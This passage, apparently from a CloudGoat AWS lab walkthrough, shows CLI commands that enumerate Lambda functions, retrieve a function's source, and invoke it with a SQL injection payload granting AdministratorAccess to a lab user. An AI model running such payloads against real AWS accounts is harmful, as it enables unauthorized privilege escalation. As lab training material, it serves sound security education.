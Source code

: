 	```
	vi .aws/credentials
	```
	![enter image description here](https://dhiyaneshgeek.github.io/images/cloud/session_token.png)
	  
(Quick info: In AWS, a session token is a temporary set of credentials granted to an entity, such as an IAM user or role, to access AWS services. It is typically used for short-lived sessions that require temporary access to AWS resources.)

List all the lambdas to **identify** the target (vulnerable) lambda:
```
# This command will show you all lambda functions. The function belonging to cloudgoat (the name should start with "cg-")
# can apply a predefined set of aws managed policies to users (in reality it can only modify the bilbo user).

aws --profile assumed_role --region us-east-1 lambda list-functions
```
![enter image description here](https://dhiyaneshgeek.github.io/images/cloud/vullam3.png)

-  Upon looking at the lambda source code,  you should see the database structure in a comment, as well as the code that is handling input parameters. It’s vulnerable to an injection, and we’ll see what an exploit looks like in the next step.

```
#This command will return a bunch of information about the lambda that can apply policies to bilbo.
#Part of this information is a link to a url that will download the deployment package, which
#contains the source code for the function. Read over that source code to discover a vulnerability. 

aws --profile assumed_role --region us-east-1 lambda get-function --function-name [policy_applier_lambda_name]
```
![enter image description here](https://dhiyaneshgeek.github.io/images/cloud/vullam4.png)

  
An SQL injection payload is a malicious code or input injected into a SQL query via an application's input fields. It aims to manipulate the query's logic to perform unauthorized actions, such as accessing or modifying data, bypassing authentication, or executing arbitrary commands on the database server.

Call the role applier lambda function, passing the name of the bilbo user and the **injection** payload.
```
#The following command will send a SQL injection payload to the lambda function
aws --profile assumed_role --region us-east-1 lambda invoke --function-name [policy_applier_lambda_name] --cli-binary-format raw-in-base64-out --payload '{"policy_names": ["AdministratorAccess'"'"' --"], "user_name": [bilbo_user_name_here]}' out.txt

#cat the results to confirm everything is working properly
cat out.txt
```
This command is trying to exploit a SQL injection vulnerability in the Lambda function to gain unauthorized access or perform unauthorized actions In this case, granting administrator access to a user specified by `user_name`. This poses a serious security risk and shows us the importance of securing AWS Lambda functions against injection attacks by following best practices.
